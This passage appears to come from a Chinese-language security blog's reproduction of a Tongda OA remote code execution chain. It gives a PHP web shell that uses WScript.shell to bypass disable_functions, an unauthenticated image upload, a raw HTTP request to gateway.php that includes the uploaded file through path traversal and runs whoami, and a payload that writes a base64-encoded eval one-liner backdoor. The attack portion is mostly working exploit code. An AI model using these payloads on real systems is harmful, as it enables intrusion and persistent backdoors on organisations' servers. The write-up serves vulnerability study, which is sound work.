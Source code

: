 ```

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>

------WebKitFormBoundaryBwVAwV3O4sifyhr3--
```

这里使用了`COM`组件`wscript.shell`来绕过`disable_function`

![][11]

打开文件夹可以看到未经过登录验证成功上传了 jpg 文件：

![][12]

接下来访问文件包含利用的链接：`/ispirit/interface/gateway.php`，

`POST`给`json`赋值，指定`key`为`url`，`value`为文件位置

修改为如下：

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 10.103.51.104
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 70

json={"url":"/general/../../attach/im/2009/1066533428.jpg"}&cmd=whoami
```

![][13]

成功执行命令！也可以把图片马的内容改为执行写入一句话的命令：

```
<?php
$fp = fopen('test.php', 'w');
$a = base64_decode("PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==");
fwrite($fp, $a);
fclose($fp);
```

![][14]


[1]: https://pan.baidu.com/s/1boJrEbX#2uj7
[2]: http://www.cnseay.com
[3]: http://dezend.qiling.org/free.html
[4]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_161524.png
[5]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_162051.png
[6]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_162124.png
[7]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_162641.png
[8]: https://pan.baidu.com/s/1c0tiX5VIdrFdOkeTsRPpYQ#640o
[9]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_143818.png
[10]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_143920.png
[11]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_161129.png
[12]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_161213.png
[13]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_161252.png
[14]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_151848.png
[15]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200901_153950.png
[16]: https://mp.weixin.qq.com/s/a3Q-0_UAoMtYU2FMo_oG-A
[17]: https://bbskali.cn/forum.php?mod=viewthread&tid=2026
[18]: https://mp.weixin.qq.com/s/dmXYxqFWGFl3ZnXOwZ-nlQ
[19]: https://www.freebuf.com/articles/web/241139.html
[20]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_142024.png
[21]: https://github.com/NS-Sp4ce/TongDaOA-Fake-User
[22]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_141701.png
[23]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_142024.png
[24]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_145113.png
[25]: https://bbs.zkaq.cn/t/4434.html
[26]: https://www.freebuf.com/articles/web/234992.html
[27]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_171933.png
[28]: https://img.soapffz.com/archives_img/2020/09/01/archives_20200902_172448.png
[29]: https://www.zrools.org/2020/04/23/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1-%E9%80%9A%E8%BE%BEOA-%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E6%BC%8F%E6%B4%9E%EF%BC%88%E5%8C%BF%E5%90%8DRCE%EF%BC%89%E5%88%86%E6%9E%90/